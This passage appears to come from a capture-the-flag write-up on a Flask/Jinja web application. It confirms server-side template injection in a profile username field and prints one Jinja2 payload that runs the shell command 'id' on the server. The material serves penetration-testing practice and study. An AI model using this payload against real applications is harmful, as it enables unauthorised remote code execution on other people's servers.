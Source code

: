 > **Foothold**
> Note that this is a python application, and it might be using `Jinja/Flask` to render templates
> 
> Check some places where user input can be renderedContents
{: .prompt-info }

Confirmed SSTI at username field at user profile settings

![](/assets/obsidian/82f5fd7046e58aa046fae52a044bea31.png)

Use some payloads from [payloadallthethings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution) to check if RCE is possible

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![](/assets/obsidian/f8e07a7ddc57297f21ce077a7a067529.png)
